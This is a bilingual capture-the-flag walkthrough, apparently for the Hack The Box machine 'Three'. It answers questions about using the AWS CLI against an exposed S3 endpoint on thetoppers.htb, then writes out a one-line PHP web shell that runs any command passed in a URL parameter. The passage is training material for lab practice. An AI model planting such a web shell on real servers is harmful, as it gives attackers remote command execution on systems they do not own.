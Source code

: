 ## task 6

Which command line utility can be used to interact with the service running on the discovered sub-domain?

哪个命令行实用程序可用于与在发现的子域上运行的服务交互？

`awscli`

## task 7

Which command is used to set up the AWS CLI installation?

哪个命令用于设置AWS CLI安装？

`aws configure`

## task 8

​	What is the command used by the above utility to list all of the S3 buckets?

上述实用程序用于列出所有S3存储桶的命令是什么？

`aws s3 ls`

## task 9

This server is configured to run files written in what web scripting language?

此服务器配置为运行用什么web脚本语言编写的文件？

`php`

## task 10

我们就可以通过awscli来与s3进行交互，安装并将所有字段随意配置(服务器可能不校验)。

```poweshell
┌──(root㉿kali)-[/home/kali]
└─# aws configure                                                       
AWS Access Key ID [****************1]: AKIAIOSFODNN7EXAMPLE
AWS Secret Access Key [****************1]: wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
Default region name [1]: us-west-2
Default output format [1]: json
```

列出该s3下的目录及对象

```powershell
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

创建一句话木马

```powershell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
